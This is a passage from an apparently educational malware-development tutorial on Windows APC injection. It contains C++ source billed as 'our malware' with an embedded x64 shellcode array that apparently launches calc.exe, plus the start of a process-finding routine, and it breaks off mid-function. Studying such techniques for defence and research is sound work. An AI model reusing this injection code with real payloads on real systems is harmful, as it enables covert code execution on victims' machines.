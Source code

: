 As you can see we queue an APC to the thread using the `QueueUserAPC` function. the first parameter should be a pointer to the function that we want to execute which is a pointer to my payload and the second parameter is a handle to the remote thread.   

Let's take a look at full C++ source code of our malware:    
```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);
```